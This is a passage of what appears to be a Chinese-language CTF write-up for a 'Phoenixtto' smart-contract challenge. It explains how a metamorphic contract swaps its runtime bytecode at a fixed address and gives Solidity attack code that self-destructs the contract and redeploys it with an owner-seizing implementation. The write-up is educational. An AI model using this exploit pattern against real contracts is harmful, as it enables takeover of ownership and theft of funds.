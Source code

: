 仔细观察，这个就是Metamorphic合约。

```
5860208158601c335a63aaf10f428752fa158151803b80938091923cf3，这串bytecode的原理是staticcall调用getImplementation方法，获取implementation合约地址，再用extcodecopy把implementation合约的runtime bytecode复制到memory，做为当前部署合约的runtime bytecode，以此来动态替换合约的runtime bytecode，而合约地址又不变。
```

所以，我们先自毁合约（手动），然后修改逻辑合约（通过攻击合约完成）即可！

```
通过`capture`手动销毁
```

攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

contract PhoenixttoHacker {

    constructor(){

    }

    function attack(address _target) public{
        ILab(_target).reBorn(type(Phoenixtto2).creationCode);
    }

    fallback() external payable {

    }
}

contract Phoenixtto2 {
    address public owner;
    bool private _isBorn;

    function reBorn() external {
        if (_isBorn) return;

        _isBorn = true;
        owner = PLAYER_ADDRESS;
    }

    function capture(string memory _newOwner) external {
        if (!_isBorn || msg.sender != tx.origin) return;

        address newOwner = address(uint160(uint256(keccak256(abi.encodePacked(_newOwner)))));
        if (newOwner == msg.sender) {
            owner = newOwner;
        } else {
            selfdestruct(payable(msg.sender));
            _isBorn = false;
        }
    }
}

interface ILab{
    function reBorn(bytes memory _code) external;
}
```
